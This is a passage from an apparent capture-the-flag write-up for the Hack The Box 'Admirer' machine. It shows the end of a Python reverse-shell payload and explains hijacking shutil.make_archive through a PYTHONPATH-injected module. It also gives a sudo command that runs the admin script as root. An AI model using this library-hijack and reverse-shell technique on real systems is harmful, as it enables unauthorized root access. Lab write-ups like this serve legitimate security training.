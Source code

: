 ```python
        pty.spawn("/bin/bash")
        s.close()
```

To roughly break down how this works: 
1. `backup.py` will import a function called `make_archive()` from a python module named `shutil`. 
2. As the `make_archive()` in `backup.py` requires three arguments, our `make_archive()` will also need to have three (dummy) arguments. 
3. Once `backup.py` calls for the `make_archive()` function and is redirected here, a reverse shell will run connecting back to our Kali machine. 

*Do remember to replace the `lhost` and `lport` with the correct IP addresses/port number for the reverse shell.*

Now, we can set the `$PYTHONPATH` environment variable to point to `waldo`'s home directory, and run `admin_tasks.sh`. Select option 6 to run the `backup.py` script. 

```bash
sudo PYTHONPATH=/home/waldo/ /opt/scripts/admin_tasks.sh
```

![93f3b2b2027bf67e810888389487404e.png](/images/htb-admirer/4cedc62a8243495aae2265d00d46096f.png)

And we got root.